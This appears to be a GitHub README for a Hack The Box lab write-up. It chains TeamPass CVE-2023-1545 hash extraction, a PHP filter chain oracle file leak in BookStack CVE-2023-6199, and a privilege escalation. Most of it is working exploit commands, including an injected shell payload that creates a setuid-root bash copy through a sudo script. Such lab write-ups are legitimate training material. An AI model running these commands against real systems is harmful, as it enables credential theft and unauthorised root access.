



# 🔐 TeamPass 3.0.0.20 (CVE-2023-1545) Hash Extraction & PHP Filter Chain Oracle Exploit in Bookstack V23.10.2 (CVE-2023-6199)

This repository contains the tools, commands, and exploit steps used to solve a Hack The Box lab involving TeamPass and PHP filter chain vulnerabilities. It is intended as a reference for others who want to learn from or reproduce the attack chain.



This repository documents how to extract password hashes from a vulnerable TeamPass instance, exploit PHP filter chains to leak files, and perform privilege escalation through custom-crafted exploits.

---

## 🧪 Extracting TeamPass Password Hashes

```bash
python3 teampass.py http://checker.htb:8080
```

---

## 🗂️ Leaking Files Using PHP Filter Chain Oracle



Navigate into the exploit directory:

```bash
cd php_filter_chains_oracle_exploit/
```

Run the exploit with your custom parameters:

```bash
python3 filters_chain_oracle_exploit.py \
  --target '<vulnerable_url_path>' \
  --file '<path_to_extract>' \
  --verb PUT \
  --parameter html \
  --proxy http://127.0.0.1:8080 \
  --log extracted_data.txt \
  --headers '{"X-CSRF-TOKEN": "<INPUT_VALUE_HERE>", "Cookie": "XSRF-TOKEN=<INPUT_VALUE_HERE>; bookstack_session=<INPUT_VALUE_HERE>", "Content-Type": "application/x-www-form-urlencoded"}'
```

---

## 🚀 Privilege Escalation



### 1. Compile the exploit

```bash
gcc -o exploit exploit.c
```

### 2. Trigger the exploit using named pipes

```bash
mkfifo pipe
cat pipe | ./exploit '" or 1=1; \! /bin/sh -c "cp /bin/bash /home/reader/.bash && chmod 4755 /home/reader/.bash"; #' &
sudo /opt/hash-checker/check-leak.sh bob > pipe
```

---

### ✅ Verifying Exploit Success

```bash
ls -l /home/reader/.bash
/home/reader/.bash -p
whoami
```

---

## 📁 File Overview

```
checker/
├── php_filter_chains_oracle_exploit/
├── teampass.png
├── php_filter_chain_oracle.png
├── privesc.png
├── exploit
├── exploit.c
├── teampass.py
└── check_leak
```

---

## ⚠️ Disclaimer

> This repository is created for educational purposes only. Do not use these techniques on any system without **explicit permission**.
